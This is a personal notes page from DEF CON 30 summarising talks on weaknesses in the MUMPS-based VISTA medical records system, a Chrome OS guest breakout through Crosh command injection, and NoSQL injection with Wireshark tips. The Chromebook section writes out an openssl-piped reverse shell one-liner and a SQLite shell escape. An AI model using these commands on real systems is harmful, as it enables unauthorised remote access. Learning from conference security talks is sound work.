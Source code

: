 # DEF CON 30

**author**:: Nathan Acks  
**date**:: 2022-08-13

DEF CON talks in the morning, and another workshop this afternoon.

* [DEF CON 30](https://defcon.org/html/defcon-30/dc-30-index.html)

## How to Get MUMPS Thirty Years Later

SIDE NOTE: Zach uses a text-based slide generation tool called Moebius.

MUMPS is a versatile language (and development environment) originally developed for the VA. I predates \*NIX and is incredibly versatile - it's also used by other hospitals, police departments, banks, and even the ESA.

MUMPS has some interesting features: All keywords can be shortened to a single character. White space matters (except for newlines). Math is evaluated left-to-right (there's no sense of order of operations `O_o`). Dates are comma-delineated strings that start in 1838 (and support up to the year 9999).

MUMPS can be treated as both a scripted and compiled language.

More than 50% of all electronic medical records pass through some sort of MUMPS application.

VISTA is a platform for handling electronic medical records that is written in MUMPS specifically for use by the Veterans' Administration.

In hospitals, clients talk to VISTA using a network RPC. The most common client is CPRS (it's written in a slightly more modern language, DELPHI `O_o`).

CPRS/VISTA are *extremely* chatty on the network.

VISTA uses a roll-your-own encryption scheme from the 1990s. Encryption can be trivially broken. Packets can be replayed. And there are hard-coded creds (though Zach doesn't think that these are exploitable). So, be sure to layer TLS onto any MUMPS implementations!

Zach's had trouble getting the VA to talk to them, so disclosure's still ongoing here.

VISTA is *really* well-loved by the doctors who use it.

* [How to Get MUMPS Thirty Years later (or, Hacking the Government via FOIA'd Code)](assets/how-to-get-mumps-thirty-years-later-or-hacking-the-government-via-foiad-code-zachary-minneker.pptx)
* [Moebius ANSI Art Editor](https://blocktronics.github.io/moebius/)

## Chromebook Breakout

This is the Lost Rabbit Labs people. I saw them at a DC 303 meet-up.

This vulnerability was actually patched two years ago by Google…

This is a breakout from the Chrome OS guest user via the the Crosh shell using command injection in the `set_*` commands.

The Pico Ducky is a Rubber Ducky work-alike that runs on a Raspberry Pi Pico. It's much faster than Hak5's tool.

Interesting redirect trick - use `1>&2` to redirect STDOUT to STDERR (the reverse of what is normally done) to bypass some output filtering.

You can pipe `sh` through `openssl` for a reverse shell! Something like: `mkfifo /tmp/irl; /bin/sh -i < /tmp/irl 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > tmp/irl; rm /tmp/irl`

In older versions of Chrome OS, the Crosh shell could actually be launched in Dev Mode (without switching the entire box to Dev Mode) using `crosh --dev` (via `set_apn` command injection).

SQLite shell escape: `.shell bash`

Oof… There were (are?) hard-coded SSH public keys on Chrome OS; the corresponding private key was (is?) available in the Chromium code repo.

Chrome OS has a restricted `finger` command called `pinky` that's used internally.

If you can get to `dbus` on a Chromebook, you can access *some* (but not all!) Dev Mode tools (like `ping`).

(I wasn't able to catch the end of this presentation, however, as I needed to head out to my last workshop…)

* [Chromebook Breakout: Escaping Jail, With Your Friends, Using a Pico Ducky](assets/chromebook-breakout-escaping-jail-with-your-friends-using-a-pico-ducky-jimi-allee.pdf)
* [Pico Ducky](https://github.com/dbisu/pico-ducky)

## Securing Web Apps

TIL: There is such a thing as NoSQLi, and it's *way* easier than SQLi - just drop objects containing search operators into the NoSQL queries instead of actual data!

You can search within packets in Wireshark using the filter `frame contains "$TEXT_TO_SEARCH"`.

If you can find an encryption key in a packet dump, you can try applying them to encrypted packets in Wireshark using "Preferences > RSA Keys".

Wireshark can easily extract files from HTTP conversations. To extract them from raw TCP streams, (1) locate the beginning of the stream, (2) right-click on the packet and select "Follow > TCP Stream, (3) change "Show data as" to "Raw", and (4) save it off using "Save As".

* [Securing Web Apps](https://forum.defcon.org/node/241772)
* [How to pull off a successful NoSQL Injection attack](https://infosecwriteups.com/nosql-injection-8732c2140576)
